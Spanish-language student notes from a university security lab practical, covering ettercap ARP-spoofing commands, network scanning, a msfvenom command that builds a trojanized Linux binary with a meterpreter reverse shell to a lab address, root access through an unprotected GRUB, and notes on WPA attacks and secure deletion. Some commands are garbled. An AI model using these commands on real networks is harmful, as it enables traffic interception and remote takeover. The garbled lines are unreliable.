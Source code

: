 # PRÁCTICA 2 - EJEMPLOS DE CATEGORÍAS DE ATAQUE ET AL

- ettercap-text-only / ettercap-graphical

### ettercap 
- # ettercap -P repoison-arp -M arp:remote

-M arp es para interceptar el tráfico únicamente entre dos máquinas.
:remote indica que coja el tráfico entre dos máquinas 
pero también el tráfico que venga de Internet (del router)
:oneway solo intercepto el tráfico que va de la máquina hacia fuera, 
no el que le llega

-M port :remote/:tree
-M dhcp: 10.11.49.106-Y/255.255.254.0/10.8.12.49
-M icmp xx:_____:xx/X.X.X.X ___________ /_____// /_____//
-M ndp
-M arp:remote /10.11.49.106// /10.11.48.1//

### [IMPORTANTE] Entre qué máquinas me voy a meter:

Solo de una IP al router, o de una IP a otra IP

/10.11.49.106//    /10.11.48.1


### [IMPORTANTE] Para salir de ettercap;

Se sale con la letra q, nunca con Ctrl+C

##########

-w ficherito

##### probar WIRESHARK

1. ssh -X lsi@10.11.48.50 (carga las ventanas gráficas en la máquina personal)

2. probarlo en nuestra máquina personal

#####

ping -b 10.11.49.255
arp -a
# debian no acepta ping a direcciones de broadcast
## Solución: hacer un script con un for para hacer ping a todas las direcciones
## Solución2: nmap -sP 10.11.48/23

#####
atk6-alive6 (ping6 ff02::1)

#### apartado e)
analizar tráfico ens33
pcap

#### apartado f)
ettercap -P remote_browser

#### apartado g)

1. instalar metasploit

2. ponerlo a funcionar (crear bbdd... (seguir how-to))

3. crear un binario ejecutable troyanizado para que si alguien lo ejecute, lance un shell contra el metasploit. Payload meterpreter

##### msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=10.11.48.50 lport=1234 -f elf -o navigate3.0
chmod +x navigate3.0
ejecutable para linux con un reverse tcp de meterpreter


wget -r -k http:// comando para descargar un servidor web (info estática)

-l2 descarga dos niveles (index y siguiente nivel de página)

crappling

-H descargaría las páginas de ese server y a su vez las páginas que enlaza de otros servidores

hacerse root en una maquina a traves del grub desprotegido

rw init=/bin/sh

como proteger el grub?

grub-mkpasswd-pbkdf2 -> genera hash

/etc/grub.d/40_custom

set superuser=root

password_pbkdf2 root [pegar hash]

TEMPEST - ejercito se gasta millones en estas herramientas tempest

rebailling y reflow - el primero es resoldar un chip y el reflow es darle calor a la circuiteria

KRACK

krack attack contra wpa2

wpa3 aparece y se estandariza en 2018

ataques dragon blood contra wpa3

wpa3:

algoritmo SAE autenticacion simultanea entre iguales

algoritmo diffie-hellman CE (dragonfly se basa en él)


---------------- 

borrado seguro de información

srm - secure remove

shred 

wipe

eraser - borrado seguro para windows

dd if=/dev/unrandom if=/dev/sdb

sfill 

sswap

smem

